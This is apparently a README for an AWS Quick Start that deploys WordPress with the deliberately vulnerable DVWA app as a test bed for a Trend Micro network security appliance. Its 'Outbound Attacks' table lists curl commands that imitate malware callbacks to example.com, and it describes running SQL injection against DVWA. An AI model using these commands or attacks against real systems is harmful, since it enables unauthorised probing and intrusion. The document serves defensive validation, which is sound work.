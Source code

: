 # quickstart-network-security-edge-deployment
## Network Security Edge Deployment in WordPress High Availability DVWA environment on AWS Cloud

Note: This Quick Start is an adaptation of original [Wordpress High Availability By Bitnami](https://github.com/aws-quickstart/quickstart-bitnami-wordpress). The original quickstart has been modified to include DVWA instance in the deployment. 

This Quick Start deploys WordPress High Availability by Bitnami, which includes WordPress and Amazon Aurora, in a highly available environment on AWS in about 40 minutes. It also deploys Damn Vulnerable Web Application (DVWA) in one of the public subnets. The purpose of this quickstart is to provide users a sample environment where they can deploy Network Security Virtual Appliance to protect their resources including web servers and databases etc.

After deploying this Quick Start, you will be able to:

- Deploy Network Security Virtual Appliance (NSVA) as an [Edge Protection](https://cloudone.trendmicro.com/docs/network-security/option1/)
- Configure your security profile in Cloud One Network Security console by distributing various Intrustion Prevention (IPS), Geo Filters to prevent your resources from inbound and outbound attack.
- Perform various inbound and outbound attacks to validate protection.
- Access logs of Network Security Virtual Applicance (NSVA) to verify which filters are getting triggered.

## Quick Start architecture for WordPress High Availability by Bitnami and DVWA on AWS

<img src="docs/edge_deployment.png" name="Network Security Edge Deployment">

## Deployment Steps

### 1. Deploy sample Wordpress environment with DVWA 
The Quick Start offers two deployment options:

- Deploying WordPress High Availability by Bitnami and DVWA into a new virtual private cloud (VPC) on AWS
- Deploying WordPress High Availability by Bitnami and DVWA into an existing VPC on AWS

For architectural details, best practices, step-by-step instructions, and customization options, see the 
[Bitnami quickstart deployment guide](https://fwd.aws/arqWN).

Before proceeding to deploy the Quick Start, please create a new SSH key pair for DVWA instance in the AWS region you will be deploying the Quick Start to. You may use the same key pair as the one you created for Bastion hosts if you don't want to create an additional keypair.

Below are the additional parameters for DVWA Configuration that the Quickstart uses:
### DVWA Configuration

| Parameter label (name)                                   | Default        | Description        |
| :--------------------------------------------------------| :------------- | :--------------- |
| DVWA Instance Type (DVWAInstanceType)                    | t2.micro       | Amazon EC2 instance type for the DVWA instance            |
| Allowed DVWA External Access CIDR (DVWARemoteAccessCIDR) | 127.0.0.1/32   | The CIDR IP range that is permitted external SSH access to the bastion host instances. We recommend that you set this value to a trusted IP range |
| SSH KeyPair Name (DVWAKeyPairName)                       | Requires input | A public/private key pair, which allows you to connect securely to your instance after it launches. When you created an AWS account, this is the key pair you created in your preferred region |

### 2. Deploying Network Security to your environment

After the CloudFormation stack is successfully deployed, please use the deployment wizard in your CloudOne Network Security console to deploy Network Security Appliance in your environment. For detailed step-by-step instructions on deploying Network Security please check [Deploy Protection](https://cloudone.trendmicro.com/docs/network-security/add_cloud_accounts_appliances/) section

Once the Network Security Virtual Appliances have been succcessfully deployed, make sure they are visible in the CloudOne console and are reporting 'Active' status.

Your environment is now ready to inspect inbound and outbound traffic!

### 3. Perform IPS, Geo and SQL Attacks

Before performing each attack, please perform the following steps:
1. Configure respective filter to Block and Log mode in Cloud One console. For detailed steps please check [Customize filter settings using the GUI](https://cloudone.trendmicro.com/docs/network-security/Customize_filter_settings_GUI/)
2. Distribute profile with filter overrides. For detailed steps please check [Distribute filter overrides to your network](https://cloudone.trendmicro.com/docs/network-security/Filter_overrides_GUI/)

### Outbound Attacks

Below is the list of outbound attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Filter ID  | Attack                                                   |
| :--------- | :------------------------------------------------------------ |
| 25492      | curl -H 'User-Agent: sdvntyer' http://www.example.com/api/v88 |
| 34738      | curl 'http://www.example.com/includes/main.php?t=7d4580a3910c54d62b46f24c397c8d59&f=g2&type=cmd&id=D7CB4B6E5A21CA596DE0A7E10059C85E'|
| 38451      | curl -H 'User-Agent: ArcherGhost' -d 'post=eyJkYXRhIjogeyJkb21haW4iOiAiaHR0cDovL3RhcmdldDEyMy5jb20vYXNzZXRzL3ZlbmRvci9waHB1bml0L3BocHVuaXQvc3JjL1V0aWwvUEhQL3Nzc3AucGhwIiwgInNlcnZlciI6ICIxOTIuMTY4LjEwNy4xOSIsICJ0aXRsZSI6ICJqcSJ9LCAidHlwZSI6ICJzY2FubmVyIn0%3D' http://www.example.com/adeliap/404.php |

### Geo Filter Attacks

In order to perform Geo Filter attacks, you need to first configure Geo Filters in Cloud One console by selecting a geographic region to block traffic. For detailed steps on how to configure Geo Filters, please check [Geolocation Filter](https://cloudone.trendmicro.com/docs/network-security/Geo_Location_filtering/). 

Below is the list of geofilter attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Region | Attack |
| :----- | :----------------------|
| China  | curl https://baidu.com |
| Russia | curl https://mail.ru   |

### SQL Attacks

SQL Attacks can be performed on DVWA server that is spun up as part of the Quick Start. For performing SQL Attacks, you need to first configure the application security level to "Low" in order for attacks to work properly.